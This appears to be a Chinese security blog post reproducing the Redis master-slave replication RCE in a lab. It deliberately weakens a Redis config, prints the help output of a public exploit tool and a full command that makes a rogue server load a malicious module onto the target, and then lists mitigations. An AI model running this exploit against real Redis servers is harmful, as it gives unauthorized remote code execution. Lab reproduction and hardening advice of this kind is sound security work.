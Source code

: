 ```yaml
---
layout: post
title: "Redis-RCE 复现" 
subtitle: "Redis-RCE 复现"
date: 2019-07-12
author: ppbibo
category: security
---
```


[TOC]

**PS**：

很早之前复现过redis 未授权访问写shell 的案例[参考](https://www.freebuf.com/column/158065.html)

如今又出现了 Redis 主从复制 RCE  刚才在复现的时候一直卡在 [*] Tring to run payload 中 原因是因为两台机器必须处在公网的环境下或者本地代理也可以只要保证机器可以互PING保持通信。



## 0x1 漏洞影响范围：

   **Redis 2.x 3.x 4.x 5.x**



## 0x2 环境搭建

Redis 服务器：xxx.xxx.94.167

**Tag:** Redis 配置为外网可以访问，本人服务器为阿里云所以要登陆官网打开 6379 的端口访问权限

更改 redis.conf 配置文件

```
bind 127.0.0.1

protected-mode yes
```

更改为

```
# bind 127.0.0.1

protected-mode no
```

然后重启 redis 。

**RT**：

![redis-rce-1](/static/img/redis-rce-1.png)

## 0x2 复现漏洞

攻击机IP：xxx.xxx.43.169

[采用工具](https://github.com/Ridter/redis-rce) 帮助：

```bash
[root@admin redis-rce]# python3 redis-rce.py -h

█▄▄▄▄ ▄███▄   ██▄   ▄█    ▄▄▄▄▄       █▄▄▄▄ ▄█▄    ▄███▄   
█  ▄▀ █▀   ▀  █  █  ██   █     ▀▄     █  ▄▀ █▀ ▀▄  █▀   ▀  
█▀▀▌  ██▄▄    █   █ ██ ▄  ▀▀▀▀▄       █▀▀▌  █   ▀  ██▄▄    
█  █  █▄   ▄▀ █  █  ▐█  ▀▄▄▄▄▀        █  █  █▄  ▄▀ █▄   ▄▀ 
  █   ▀███▀   ███▀   ▐                  █   ▀███▀  ▀███▀   
 ▀                                     ▀                   


usage: redis-rce.py [-h] -r RHOST [-p RPORT] -L LHOST [-P LPORT] [-f FILE]
                    [-a AUTH] [-v]

Redis 4.x/5.x RCE with RedisModules

optional arguments:
  -h, --help            show this help message and exit
  -r RHOST, --rhost RHOST
                        target host
  -p RPORT, --rport RPORT
                        target redis port, default 6379
  -L LHOST, --lhost LHOST
                        rogue server ip
  -P LPORT, --lport LPORT
                        rogue server listen port, default 21000
  -f FILE, --file FILE  RedisModules to load, default exp.so
  -a AUTH, --auth AUTH  redis password
  -v, --verbose         show more info
```

 执行命令：

```bash
$ python3 redis-rce.py -r xxx.xxx.94.167 -p 6379 -L xxx.xxx.43.169 -f ./exp_lin.so
```

**RT:**

![redis-2](/static/img/redis-2.png)

**注意**: *攻击机 目标机要能互相通信，要么2个都在公网，要么2个都在内网，或者加个代理也是可以的。*



## 0x3 应急措施

1、官方目前没有发布相关补丁

2、 禁止外网访问 Redis（重启redis才能生效）

```bash
# 修改 redis.conf 文件，添加或修改，使得 Redis 服务只在当前主机可用。
bind 127.0.0.1
```

3、以低权限运行 Redis 服务（重启redis才能生效）

```bash
# 为 Redis 服务创建单独的用户和家目录，并且配置禁止登陆。
groupadd -r redis && useradd -r -g redis redis
```

4、设置防火墙策略　　

```bash
如果正常业务中Redis服务需要被其他服务器来访问，可以设置iptables策略仅允许指定的IP来访问Redis服务。
```